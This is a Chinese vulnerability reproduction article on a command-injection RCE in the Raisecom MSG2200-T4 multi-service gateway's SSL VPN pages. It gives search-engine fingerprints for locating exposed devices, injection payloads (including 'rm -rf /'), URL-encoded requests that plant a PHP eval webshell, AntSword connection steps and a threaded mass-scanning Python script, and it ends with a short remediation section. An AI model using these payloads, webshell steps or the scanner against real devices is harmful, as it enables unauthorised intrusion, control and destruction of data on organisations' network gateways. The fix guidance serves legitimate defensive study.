








# RCE复现 | 瑞斯康达智能网关RCE漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/18412  
> **文章ID**: 18412

---

# 0x01 相关简介

**涉及设备:MSG2200-T4**

瑞斯康达科技发展股份有限公司多业务智能网关是一款集多种功能于一体的网络设备，专为中小企业及行业分支机构设计，以满足其多业务接入和带宽提速的需求，是新一代网络产品。网关集成了数据、语音、安全、无线等多种功能，能够为用户提供综合、完整的网络接入解决方案。它们广泛应用于政企单位、商务楼宇、校园、工业园区等场景，为用户带来高效、便捷的网络体验。

# 0x02 指纹信息

## Fofa

```
body="/images/raisecom/back.gif" && title=="Web user login"
body="oForm.user_name.value"
body="/images/raisecom/back.gif"
```

## Hunter

```
web.body="oForm.user_name.value"
web.body="/images/raisecom/back.gif"
```

## Quake

```
body:"oForm.user_name.value" 
body:"/images/raisecom/back.gif" && title:"Web user login"
```

# 0x03 漏洞分析

## 代码审计

该漏洞为公开POC,因此根据已知文章直接定位到存在漏洞的文件/vpn/list\_base\_config.php

漏洞参数如下:

```
type=mod&parts=base_config&template=[恶意代码]
```

/vpn/list\_base\_config.php代码如下:

```
<?
$type ='list';
$parts ='base_config';
$pages =1;
$add_page ='';
$mod_page ='';
$rult_type =1;
$type = isset($_REQUEST['type'])? $_REQUEST['type']:$type;
$parts = isset($_REQUEST['parts'])? $_REQUEST['parts']: $parts;
$pages =isset($_REQUEST['pages'])? $_REQUEST['pages']:$pages;
$rule_type = isset($_REQUEST['serch_value'])? $_REQUEST['serch_value']:$rule_type;
$obj_sslvpn = new sslvpn_class();
switch($parts)
{
	case 'base_config':
		switch($type)
		{
	    case 'mod':
		  $obj_sslvpn->sslvpn_config_mod(2);
		  break;
	    default:
		  break;
		}
		header('Location:./base_config.php');	
		break;
	default:
		break;
}	
?>
```

通过审计该代码,发现可以传入的参数如下:

```
$type = isset($_REQUEST['type'])? $_REQUEST['type']:$type;
$parts = isset($_REQUEST['parts'])? $_REQUEST['parts']: $parts;
$pages =isset($_REQUEST['pages'])? $_REQUEST['pages']:$pages;
$rule_type = isset($_REQUEST['serch_value'])? $_REQUEST['serch_value']:$rule_type;
```

即为 --> type parts pages serch\_value

最重要的sslvpn\_config\_mod调用在switch分支结构中

```
switch($parts)
{
	case 'base_config':
		switch($type)
		{
	    case 'mod':
		  $obj_sslvpn->sslvpn_config_mod(2);
		  break;
	    default:
		  break;
		}
		header('Location:./base_config.php');	
		break;
	default:
		break;
}
```

使用 switch 语句根据 $parts 的值来决定执行不同的逻辑。

首先检查 $parts 是否为 'base\_config'，如果是，则进入对应的 case。

在 'base\_config' 的 case 中，再次使用 switch 语句根据 $type 的值来决定具体操作。

如果type 为 'mod'，则调用 obj\_sslvpn 对象的 sslvpn\_config\_mod(2) 方法

```
type=mod&parts=base_config
```

追溯到$obj\_sslvpn 对象的 sslvpn\_config\_mod(2) 方法

路径位于:

```
\php_class\sslvpn_class.php
```

通过搜索漏洞参数"template"直接定位漏洞位置



漏洞位置如下:

```
/* add by lxh for  template custom,2011 07.12 */
$mod_xml .= '<template>'.$_REQUEST['template'].'</template>';
$start_comm = 'cp -f /usr/local/sslroot/pages'.$_REQUEST['template'].'/*.html /usr/local/sslroot/pages/';
exec($start_comm);
$start_comm = 'cp -f /usr/local/sslroot/pages'.$_REQUEST['template'].'/images'.$_REQUEST['stylenum'].'/* /usr/local/sslroot/pages/images/';
exec($start_comm);
$mod_xml .= '<style>'.$_REQUEST['stylenum'].'</style>';
$start_comm = 'cp -f /usr/local/sslroot/pages'.$_REQUEST['template'].'/utmcss'.$_REQUEST['stylenum'].'.css /usr/local/sslroot/utmcss.css';
exec($start_comm);
```

### 安全问题分析 --> /vpn/list\_base\_config.php

直接使用用户输入构造命令：

代码直接使用 *REQUEST['template'] 和*REQUEST['stylenum'] 的值构造系统命令，而没有进行任何验证或过滤。

这两个变量的值完全由用户控制，攻击者可以构造恶意输入，注入恶意命令。

命令注入风险：

例如，攻击者可以构造如下输入：

```
$_REQUEST['template'] = ';/bin/bash -c \'rm -rf /\' ';
$_REQUEST['stylenum'] = ';/bin/bash -c \'rm -rf /\' ';
```

这将导致执行以下命令：

```
cp -f /usr/local/sslroot/pages;/bin/bash -c 'rm -rf /'/*.html /usr/local/sslroot/pages/
```

这条命令会尝试删除系统中的所有文件，导致系统崩溃。

案例风险:

普遍存在的开源poc中,攻击者构造如下输入:

```
$_REQUEST['template'] = "`echo -e '<?php phpinfo();unlink(__FILE__);?>'>/www/tmp/test.php`";
```

这将导致执行以下命令：

```
cp -f /usr/local/sslroot/pages`echo -e '<?php phpinfo();unlink(__FILE__);?>'>/www/tmp/test.php`/*.html /usr/local/sslroot/pages/
```

这条命令会将<?php phpinfo();unlink(\_\_FILE\_\_);?>写入到目录/www/tmp/test.php

## 举一反三

根据调用sslvpn\_config\_mod则有可能存在命令执行漏洞的情况,搜索同样调用该方法的文件



漏洞情况如下:

### \vpn\list\_ip\_network.php文件:

### \vpn\list\_service\_manage.php文件:

### \vpn\list\_vpn\_web\_custom.php文件:

```
<?
	if($_REQUEST['Nradius_submit'] == true)
	{
		$obj_sslvpn = new sslvpn_class();
		$obj_sslvpn->sslvpn_config_mod(4);
		
	}
?>
```

poc:

```
/vpn/list_ip_network.php?Nradius_submit=true&template=[恶意代码]
/vpn/list_service_manage.php?Nradius_submit=true&template=[恶意代码]
/vpn/list_vpn_web_custom.php?Nradius_submit=true&template=[恶意代码]
```

### \vpn\vpn\_template\_style.php文件:

```
<?
	if($_REQUEST['mySubmit'] == true)
	{
		$obj_sslvpn = new sslvpn_class();
		$obj_sslvpn->sslvpn_config_mod(5);
		
	}
?>
```

poc:

```
/vpn/vpn_template_style.php?mySubmit=true&template=[恶意代码]
```

# 0x04 漏洞复现

## 简单检测

复现第一步,先找到瑞斯康达网关相关资产,这边我们使用前文提到的quake去寻找资产

```
body:"/images/raisecom/back.gif" && title:"Web user login"
```



打开相关网站,网站整体如下图所见,可以作为瑞斯康达网关资产关键样式


命令执行漏洞Payload:

```
GET /vpn/list_base_config.php?type=mod&parts=base_config&template=%60echo+-e+%27%3C%3Fphp+phpinfo%28%29%3Bunlink%28__FILE__%29%3B%3F%3E%27%3E%2Fwww%2Ftmp%2Ftest.php%60 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```

此处主要是需要更改template参数进行命令执行

需要注意的是,利用该漏洞需要将代码转换为url编码后内容,否则网站无法识别

```
/vpn/list_base_config.php?type=mod&parts=base_config&template=`echo -e '<?php phpinfo();unlink(__FILE__);?>'>/www/tmp/test.php`
/vpn/list_base_config.php?type=mod&parts=base_config&template=%60echo+-e+%27%3C%3Fphp+phpinfo%28%29%3Bunlink%28__FILE__%29%3B%3F%3E%27%3E%2Fwww%2Ftmp%2Ftest.php%60

url编码:
%60echo+-e+%27%3C%3Fphp+phpinfo%28%29%3Bunlink%28__FILE__%29%3B%3F%3E%27%3E%2Fwww%2Ftmp%2Ftest.php%60

原始代码:
`echo -e '<?php phpinfo();unlink(__FILE__);?>'>/www/tmp/test.php`

echo:
echo 是 Linux 系统中的一个常用命令，用于在终端输出指定的字符串或变量值。
> 符号 ：
这是 Linux 系统中的重定向符，用于将命令的输出重定向到指定的文件中。
unlink(__FILE__):
unlink(__FILE__); 中的 unlink() 是 PHP 中的一个函数，用于删除文件，__FILE__ 是一个魔法常量，表示当前文件的完整路径。所以这一部分代码的作用是删除当前 PHP 脚本文件自身。
```

将url编码后的路径拼接到主域名,网站title将会刷新 --> Ϟ±덢τµµ --> 回到主页面

http://127.0.0.1/vpn/list\_base\_config.php?type=mod&parts=base\_config&template=%60echo+-e+%27%3C%3Fphp+phpinfo%28%29%3Bunlink%28\_\_FILE\_\_%29%3B%3F%3E%27%3E%2Fwww%2Ftmp%2Ftest.php%60

将phpinfo;写入/tmp/test.php



访问poc在/tmp/test.php生成的phpinfo页面

http://127.0.0.1/tmp/test.php



出现该页面即可确定存在漏洞

## 深入利用

将webshell写入指定目录:

```
`echo -e '<?php eval($_POST["star"]);?>'>/www/tmp/test.php`
%60echo+-e+%27%3c%3fphp+eval(%24_POST%5b%22star%22%5d)%3b%3f%3e%27%3e%2fwww%2ftmp%2ftest555.php%60
/vpn/list_base_config.php?type=mod&parts=base_config&template=%60echo+-e+%27%3c%3fphp+eval(%24_POST%5b%22star%22%5d)%3b%3f%3e%27%3e%2fwww%2ftmp%2ftest555.php%60
```

使用webshell管理工具连接(演示使用AntSword):



连接成功,尝试运行whoami和ifconfig命令



除了以上方案,还可以采用反弹shell的方式一键获取权限

可根据网卡情况继续深入内网渗透,不过多赘述

# 0x05 批量检测脚本(POC)

```
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

def checkRCE(url, headers):
    poc_url = url + "/vpn/list_base_config.php?type=mod&parts=base_config&template=%60echo+-e+%27%3C%3Fphp+echo+5201314%3Bunlink%28__FILE__%29%3B%3F%3E%27%3E%2Fwww%2Ftmp%2Ftest.php%60"
    try:
        requests.get(poc_url, headers=headers, timeout=10, verify=False)
        check_url = url + "/tmp/test.php"
        res = requests.get(check_url, headers=headers, verify=False)
        if "5201314" in res.text:
            print(f"[+] 目标 --> {poc_url} 存在漏洞 [+]")
            print(res.text)
            with open("vul_url.txt", "a+", encoding="utf-8") as uf:
                uf.write(url + "
")
        else:
            print(f"[-] 目标 --> {poc_url} 不存在漏洞 [-]")
    except Exception as e:
        print(f"[!] 检测目标 --> {poc_url} 时发生异常: {e}")

def main():
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36"
    }
    urls = []
    with open("url.txt", 'r', encoding="utf-8") as f:
        for url in f:
            url = url.strip()
            if "http" not in url:
                url = "http://" + url
            urls.append(url)

    with ThreadPoolExecutor(max_workers=10) as executor:
        futures = [executor.submit(checkRCE, url, headers) for url in urls]
        for future in as_completed(futures):
            try:
                future.result()
            except Exception as e:
                print(f"[!] 线程执行时发生异常: {e}")

if __name__ == "__main__":
    main()
```

将可能存在漏洞的url(利用fofa或其他网络空间搜索引擎导出功能)放在同目录下的url.txt文件,即可运行该脚本



该脚本将写入5201314到目标网站/tmp/test.php目录,访问并删除自身

# 0x06 修复方案

## 输入验证

对\_REQUEST['template'] 和 \_REQUEST['stylenum'] 的值进行严格的验证，确保它们只包含合法的字符（例如字母、数字和下划线）。

可以使用正则表达式进行验证：

```
if (!preg_match('/^[a-zA-Z0-9_]+$/', $_REQUEST['template'])) {
    die('Invalid template');
}
if (!preg_match('/^[a-zA-Z0-9_]+$/', $_REQUEST['stylenum'])) {
    die('Invalid stylenum');
}
```

## 避免直接拼接命令

不要直接将用户输入拼接到系统命令中，可以使用参数化的方式执行命令，避免输入直接与命令混合。

或者使用 escapeshellarg 函数对用户输入进行转义：

```
$template = escapeshellarg($_REQUEST['template']);
$stylenum = escapeshellarg($_REQUEST['stylenum']);
$start_comm = "cp -f /usr/local/sslroot/pages{$template}/*.html /usr/local/sslroot/pages/";
exec($start_comm);
```

## 使用安全函数

使用更安全的函数来执行命令，例如 escapeshellarg 和 escapeshellcmd 来对输入进行转义，防止命令注入。

## 最小权限原则

确保 Web 服务器以最低权限运行，避免以 root 或其他高权限用户运行，以减少潜在的损害。

## 日志记录和监控

记录所有执行的系统命令及其参数，以便在发生安全事件时进行审计和溯源。
